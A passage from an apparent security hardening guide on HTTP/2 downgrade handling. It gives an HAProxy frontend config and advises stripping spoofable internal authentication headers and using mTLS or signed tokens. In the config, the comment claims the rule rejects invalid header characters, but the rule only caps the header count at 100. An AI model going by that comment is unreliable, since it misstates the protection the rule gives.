HAProxy provides native HTTP/2 verification. Ensure HTTP mode is enforced so that HAProxy parses incoming streams into its internal representation before serializing down to HTTP/1.1:
```haproxy
frontend fe_http
    mode http
    bind :443 ssl crt /etc/ssl/certs/site.pem alpn h2,http/1.1
    # Reject requests with invalid characters in headers
    http-request deny if { req.hdr_cnt() gt 100 }
```

### 4.4 Defense-in-Depth for Internal Authentication Headers
* **Header Stripping / Overwriting:** The front-end must always strip or overwrite untrusted incoming client headers matching sensitive names (e.g., `X-SSL-*`, `X-FRONTEND-KEY`, `X-Forwarded-*`) before appending internal values.
* **Cryptographic Signing (mTLS / Signed Tokens):** Do not rely solely on shared static headers (like `X-FRONTEND-KEY`) for back-end authorization. Use Mutual TLS (mTLS) directly between internal microservices or verify short-lived, cryptographically signed tokens (e.g., JWT signed by the API gateway's private key).
